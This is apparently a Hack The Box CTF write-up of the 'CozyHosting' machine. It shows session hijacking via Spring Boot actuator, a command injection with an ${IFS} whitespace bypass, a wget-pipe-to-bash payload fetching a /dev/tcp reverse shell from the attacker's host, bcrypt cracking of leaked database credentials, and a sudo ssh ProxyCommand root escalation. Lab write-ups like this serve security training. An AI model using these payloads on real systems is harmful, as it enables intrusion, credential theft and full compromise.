


## Reconnaissance

### nmap 

```
nmap -sC -sV -oN cozyhosting_light 10.10.11.230
```


- Open Service 
1. SSH on Port 22
2. HTTP on Port 80
3. SimpleHTTPServer on Port 8080
- The HTTP service will redirect to http:/cozyhosting.htb, so I need to edit the hosts file 


### GoBuster Enumeration 

- I execute 2 times with different wordlists
- 1st times

- 2nd times

### Web Service
- A normal website


- Try to intercept the top page request with burp 

- There is a login page 

- Try to intercept the login request with burp, try arbitrary account.(Ex.admin/admin)
- It will reply error message


## Exploit 
- With gobuster result, Check the /error page, this is a default error page for SpringBoot


- According to past experiment, I tried to access /actuator, it still response /error page 
- But it I access to /actuator/env, it will show me a lot of information

- So I start to research other path under /actuator from [here](https:/book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)
- Access to /actuator/mappings to find potential path

- Access to /actuator/sessions find some working session, here is a different one which owned by kanderson


- Copy it and replace to current one, then access to /admin page, I can login by kandersion's session.


- After getting into /admin page, the only function is a Connection Setting, after submit the request, it will trigger /executessh api.

- Observe this api detail, according to the Response message, I think it's a ssh connect function, and I assume that the base command, I guess it looks like
```
ssh <ip address> 22
```

- So, I think I can terminate the ssh command and add the command I want to execute by command injection.
- When I tried to execute ping command
```
;ping%2010.10.16.23
;ping+10.10.16.23
```
- The response message shows me the whitespaces not allow.


- So I tried to replace the whitespace, after research, I found a method '${IFS}'
```
;ping${IFS}10.10.16.23;#
```
- It will show a different message which about how to use ssh command, it means command doesn't include other not allow character, but the usage of ssh command is incorrect.

- So, I know how to bypass whitespace.
- Then I tried to create a reverse shell then using upload it to victim by command injection 
- The content of reverse shell 
```
!#/bin/bash

/bin/bash -i >& /dev/tcp/10.10.16.107/1338 0>&1
```
- Create a simpleHTTPServer and use the following command as payload to upload it to victim 
```
;wget${IFS}-O${IFS}-${IFS}http:/10.10.16.107:9797/shell1.sh;#
```

- But if using this payload, it only download file, it won't execute it.

- So I also tried to execute it by command injection, it still failed.

- Then I tried to do the upload and execute at the same time
```
;wget${IFS}-O${IFS}-${IFS}http:/10.10.16.107:9797/shell1.sh${IFS}|${IFS}bash;#
```

- It's easy to confirm the payload success to download file 

- I success to get reverse shell 

- Now I get into the target, but the user is app, it even can't read user flag

- Check sudo permission, failed 
```
sudo -l
```

- Confirm the existing user
```
cat /etc/passwd
```

- I filter the results, I know the possible user is root, postgres, josh.

- Check the content in /home

- Check the result of linpeas


- Check the content in /app

- Transfer this file to attack host
1. Confirm Python version
	
2. Launch simple http server 
   
3. Download it by wget in host 
	
- Reverse the jar file by JD-GUI

- Enumerate this jar file, find a properties file which include a credential for postgres
```
postgres / Vg&nvzAQ7XxR
```


- Access postgresql by this credential, it will ask password after the launch database command
```
psql -U postgres -W -h localhost -d cozyhosting
```


- Check postgresql version 
```
SELECT VERSION();
```

- Query users table 
```
SELECT * FROM users;
```


- Record above password, save it as a file seperatly
```
kanderson / $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin / $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8UqqbNNpIPjUb2MZib3H9kVO8dm
```

- Crack the password by john&Ripper
```
john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
```

```
admin / manchesterunited
```


## Privilege Escalation 

- After get the admin password, use it to escalate to josh by SSH
```
ssh josh@10.10.11.230
```


- Confirm the current user  - josh
```
id
whoami
```



- Get user flag 


- Check sudo permission again
- This time, it shows me that the ssh can be execute by root permission

- So research how to escalate by ssh in [GTFObins(https:/gtfobins.github.io/gtfobins/ssh/)


- Execute the following command to escalate 
```
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```


- Check current user 
```
id
whoami
```


- Get root flag

## Reference 

### writeup / walkthrough / discussion 

- [(Discussion) CozyHosting](https:/forum.hackthebox.com/t/official-cozyhosting-discussion/296713)
- [(Writeup)CozyHosting 1](https:/medium.com/@cybrpunk_panda/cozyhosting-writeup-hack-the-box-40d37b3075cd)
- [(Writeup) CozyHosting 2](https:/medium.com/@li_allouche/hack-the-box-cozyhosting-writeup-1c1347c15aa0)
### Command Injection

- [Whitespace Bypass](https:/www.google.com/search?q=Whitespace+Bypass+command+injection+ctfnote&rlz=1C5CHFA_enTW1055TW1055&oq=Whitespace+Bypass+command+injection+ctfnote&gs_lcrp=EgZjaHJvbWUyBggAEEUYOTIJCAEQIRgKGKAB0gEJMTE3MTVqMGo0qAIAsAIA&sourceid=chrome&ie=UTF-8)
- [Sleep Command in Linux](https:/linuxhint.com/sleep_command_linux/)
- [Is it possible to execute the result of wget as a command?](https:/unix.stackexchange.com/questions/107864/is-it-possible-to-execute-the-result-of-wget-as-a-command)

```
wget -O - http:/foo.com/somescript | sh
```
###  crackpassword - hashcat

- [(hashcat)help to identify hash type](https:/www.google.com/search?q=hashcat+identify+hash+type&rlz=1C5CHFA_enTW1055TW1055&oq=hashcat+identify+hash+type+&gs_lcrp=EgZjaHJvbWUyCAgAEEUYHhg50gEINzIxMmowajSoAgCwAgA&sourceid=chrome&ie=UTF-8)
- [(hashcat)faster way to crack bcrypt](https:/hashcat.net/forum/thread-9345.html)
### Decompiler 

- [JD-GUI](http:/java-decompiler.github.io/)
### PostgreSQL 

- [PostgreSQL: Basic psql Commands](https:/www.commandprompt.com/education/postgresql-basic-psql-commands/)
- [(official site)psql command](https:/www.postgresql.org/docs/current/app-psql.html)
### Spring Actuator 

- [(HackTricks)Spring Actuator](https:/book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)
- [Spring Boot Actuators](https:/0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators)
- [Spring Boot漏洞exploit利用方法渗透技巧汇总](https:/www.freebuf.com/articles/web/271347.html)

### SSH Escalating 

- [(GTFObins)SSH](https:/gtfobins.github.io/gtfobins/ssh/)

###### tags: `HackTheBox` `Command Injection` `WhiteSpace Bypass` `Spring Actuator` `PostgreSQL` `Java Decompiler` `CrackPassword`